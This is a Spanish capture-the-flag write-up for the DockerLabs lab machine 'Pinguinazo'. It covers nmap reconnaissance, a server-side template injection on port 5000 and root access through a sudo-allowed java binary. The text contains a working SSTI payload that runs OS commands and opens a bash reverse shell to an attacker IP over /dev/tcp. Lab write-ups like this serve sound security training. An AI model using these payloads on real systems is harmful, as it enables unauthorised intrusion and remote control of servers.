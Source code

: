 # Pinguinazo

![DockerLabs](https://dockerlabs.es/images/logos/logo.png)

**Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

**Dificultad:** Fácil

**Fecha de creación:** 24/06/2024

----------------------------------------------

DESPLIEGUE

```
bash auto_deploy.sh pinguinazo.tar
```

![](./images/Pasted%20image%2020241203142400.png)

La ip es : 

```
172.17.0.2
```

----------------------------------------------------

RECONOCIMIENTO



```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos. 

`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida.  

`-sV` ⮞ Encuentra la versión del servicio abierto. 

`-sC` ⮞ Usa unos scripts de reconocimiento.

`--min-rate 5000` ⮞ para que el reconocimiento vaya más rápido. 

`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro) .

`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla.  

`-Pn` ⮞ Ignora si esta activa o no la IP.  

`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)  (Este no lo usaré).


Al realizar el scaneo vemos que tenemos un puerto, el 5000

![](./images/Pasted%20image%2020241203142952.png)

Un servicio que corre upnp 

Miramos por el puerto 5000 y vemos lo siguiente : 

![](./images/Pasted%20image%2020241203143725.png)

Si metemos en PinguNombre lo siguiente: `<h1>"lo que quieras"</h1>`veremos que hay una vulnerabilidad. 



Nos levantamos un `nc` 




Podemos hacer lo siguiente : 

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Y vemos que es vulnerable al SSTI (Server Side Template Injection)

Y pondremos lo siguiente: 

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"').read() }}
```

Y ya tendríamos conexión. 

![](./images/Pasted%20image%2020241203153421.png)

Hacemos un tratamiento de la TTY.

Y ya estaríamos más estable.

![](./images/Pasted%20image%2020241203153641.png)

Ponemos `sudo -l`

Nos da el binario java, nos meteremos en la página de https://www.revshells.com/
y pondremos nuestra IP atacante y el puerto 443. 

![](./images/Pasted%20image%2020241203154155.png)

Lo copiamos y creamos un archivo revshell.java

Y pegamos lo antenior. 


![](./images/Pasted%20image%2020241203154252.png)


Vamos a compilarlo. 

```
javac revshell.java
```

Una vez compilado nos pondremos a la escucha con `nc` por el puerto que queramos. 

Pondremos esto 

![](./images/Pasted%20image%2020241203154804.png)


![](./images/Pasted%20image%2020241203154738.png)
Ya estamos como root. 
